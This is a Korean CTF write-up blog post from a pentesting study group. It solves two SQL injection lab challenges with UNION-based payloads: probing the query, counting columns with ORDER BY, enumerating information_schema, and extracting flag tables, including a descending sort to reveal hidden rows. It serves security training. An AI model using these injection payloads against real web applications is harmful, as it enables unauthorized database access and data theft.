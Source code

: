 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: SQL Injection w. UNION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 2024-11-25

tags: [TIL, WEB, DATABASE, CTF]
---
```


# SQL INJECTION 1
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-1.png?raw=true)
처음 들어가면 볼 수 있는 화면이다. SQL Injection 문제라고 제목부터 박혀있으니 얌전히 query문을 작성하겠다.

## SQL Query 파악
1. **adminer**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-2.png?raw=true)
    -> 🤔 대소문자 구분이 없구나!
2. 🫣 **~~adminer'~~**
    -> X
3. **a%**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-3.png?raw=true)
    -> 🤔 like 구절이 있구나
4. 🫣 **~~a#~~**
    -> X
5. 🫣 **~~a'#~~**
    -> X
6. **a%'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-4.png?raw=true)
    -> 🫣 ~~입력값이 들어가는 곳이 like 위치인가 보다~~
    -> 🤔 query에 괄호 안 사용하고 주석 필터링 없나 보다
7. 🫣 **~~' and '1' = '1~~**
    -> X
8. 🫣 **~~%' and '1' = '1~~**
    -> X
9. **' and '1' = '1'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-5.png?raw=true)

## column 개수 파악하기
10. **' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-6.png?raw=true)
    -> 💡 보이는 column이 4개니까 4개부터 시작했다.
11. **' order by 1, 2, 3, 4, 5 #**
    -> X
    -> 🤔 column의 개수가 4개구만

## UNION 사용 가능한지 확인하기
12. **' union select 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-7.png?raw=true)

## DATABASE 이름 확인하기
13. **' union select database(), 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-8.png?raw=true)
    -> database 이름은 sqli_1이었다.

## TABLE 이름 확인하기
19. **' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-9.png?raw=true)
    -> table이 총 3개가 나왔는데, 딱 봐도 수상해 보이는 flag_table와 plusFlag_Table를 먼저 시도하기로 했다.

## COLUMN 이름 확인하기
20. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-10.png?raw=true)
    -> flag_table에서는 flag라는 column을 확인할 수 있었다.

21. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-11.png?raw=true)
    -> plusFlag_Table에서는 idx과 flag라는 column들을 확인할 수 있었다.

## DATA 추출하기
22. **' union select flag, 2, 3, 4 from flag_table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-12.png?raw=true)

23. **' union select idx, flag, 3, 4 from plusFlag_Table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-13.png?raw=true)

# SQL INJECTION 2
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-14.png?raw=true)
위쪽 문제랑 보이기에는 비슷해보인다.

## SQL Query 파악
1. **normaltic**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-15.png?raw=true)
    -> 💡 보이는 column은 ID, Level, Rank Point, info
2. **normaltic' and '1' = '1**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-16.png?raw=true)
    -> 💡 ID가 입력한 그대로 보임
3. 🫣 **~~*~~**
    -> X

## column 개수 파악하기
4. normaltic' order by 1, 2, 3, 4 #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-17.png?raw=true)
    -> 💡 보이는 column이 4개니까 4개부터 시작했다.
5. normaltic' order by 1, 2, 3, 4, 5 #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-18.png?raw=true)
6. normaltic' order by 1, 2, 3, 4, 5, 6 #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-19.png?raw=true)
7. normaltic' order by 1, 2, 3, 4, 5, 6, 7 # 
    -> X
    -> 🤔 column의 개수가 6개구만

## 출력되는 column 위치 찾기, DATABASE 이름 확인하기
8. ' union select 1, 2, 3, 4, 5, 6 #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-20.png?raw=true)
    -> 💡 보이는 column은 6번 위치에 있었다.
10. ' union select 1, 2, 3, 4, 5, database() #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-21.png?raw=true)
    -> 💡 database 이름은 sqli_5이다.

## TABLE 이름 확인하기
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-22.png?raw=true)
    -> 💡 table 이름은 flag_honey였다.

## COLUMN 이름 확인하기
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-23.png?raw=true)
    -> 💡 column 이름은 flag였다.

## DATA 추출하기
13. ' union select 1, 2, 3, 4, 5, flag from flag_honey #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-24.png?raw=true)
    -> 😬 어쩐지 구라핑의 냄새가 나더라

## TABLE 이름 확인하기
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-22.png?raw=true)
    -> 🤔 왜 1개씩 밖에 안 보일까?
        -> 🤔 row가 딱 한 개다?
        -> 🤔 row를 한 개씩만 보여준다?
            -> 🤔 다른 row가 더 있는데 안 보이는 게 아닐까?
            -> 🤔 다른 row를 보려면 어떤 걸 할 수 있을까?
12. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables order by 6 desc#
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-25.png?raw=true)
    -> 💡 view라는 다른 table이 보여요 좋아요
    -> 🤔 row를 한 개씩만 보여준다가 맞는 가정이겠네
13. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' order by 6 desc #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-26.png?raw=true)
    -> 딱 봐도 수상한 table 이름이다.

## COLUMN 이름 확인하고 DATA 추출하기 1
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-27.png?raw=true)
    -> 💡 column 이름은 flag였다.
13. ' union select 1, 2, 3, 4, 5, flag from secret #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-28.png?raw=true)
    -> 😬 아니 ㅋㅋㅋ 당했다
    -> 🤔 여기서도 역순으로 정렬해볼까?
15. ' union select 1, 2, 3, 4, 5, flag from secret order by 6 desc #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-29.png?raw=true)